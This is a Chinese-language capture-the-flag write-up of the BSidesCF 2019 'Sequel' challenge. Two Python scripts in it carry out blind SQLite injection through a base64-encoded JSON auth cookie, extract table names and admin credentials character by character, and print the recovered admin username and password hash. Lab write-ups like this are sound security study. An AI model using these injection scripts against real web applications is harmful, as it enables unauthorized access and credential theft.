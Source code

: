 ```yaml
---
title: '[BSidesCF 2019]Sequel'
date: 2025-01-05 14:51:06
tags: sqlite注入
categories: 刷题笔记
---
```


## [BSidesCF 2019]Sequel

题目没给啥信息，我们来爆破账号密码

爆破后得到账号密码都为guest

登录后，会发现在hacker的那一栏提示我们要以admin的角色登陆，所以本题的大致思路应该就是通过普通用户注入出admin的密码，然后登陆。

我们查看cookie

![image-20250105150643940](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202501051506973.png)

1337_AUTH=eyJ1c2VybmFtZSI6Imd1ZXN0IiwicGFzc3dvcmQiOiJndWVzdCJ9

嗯，长的非常可疑，我们解码看看

base64解码得到{"username":"guest","password":"guest"}

我们猜测是cookie注入，数据库为SQLite

我们用大佬的脚本

```
import requests
import base64
import string
import sys
out = ""
while True:
    for letter in string.printable:
        tmp = out + letter
        payload = r'{{"username":"\" OR EXISTS(SELECT name FROM sqlite_master WHERE name LIKE \"{}\" limit 1) OR \"","password":"guest"}}'.format(tmp + '%')
        payload = base64.b64encode(payload.encode('utf-8')).decode('utf-8')
        r = requests.get('http://3fb285db-6d23-44a1-aace-8214aa053f73.node5.buuoj.cn:81/sequels', cookies={"1337_AUTH" : payload})
        if "Movie" in r.text:
            out = tmp
            sys.stdout.write(letter)
            sys.stdout.flush()
            break
```

查询所有表名（必须自己手工多次查询）

拆了列名 username，password进行查询

```python
import requests
import base64
import string
import sys

out = ""

while True:
    for letter in string.printable:
        tmp = out + letter

        if letter == 'g': continue

        payload = r'{{"username":"\" OR EXISTS(SELECT username FROM userinfo WHERE username LIKE \"{}\" limit 1) OR \"","password":"guest"}}'.format(tmp + '%')

        payload = base64.b64encode(payload.encode('utf-8')).decode('utf-8')

        r = requests.get('https://sequel-9cba4c8e.challenges.bsidessf.net/sequels', cookies={"1337_AUTH" : payload})
        if "Movie" in r.text:
            out = tmp
            sys.stdout.write(letter)
            sys.stdout.flush()
            break

```

通过这个脚本可以获得用户名和密码，需要多测试几遍

```
sequeladmin
f5ec3af19f0d3679e7d5a148f4ac323d
```

参考

https://cloud.tencent.com/developer/article/1472545
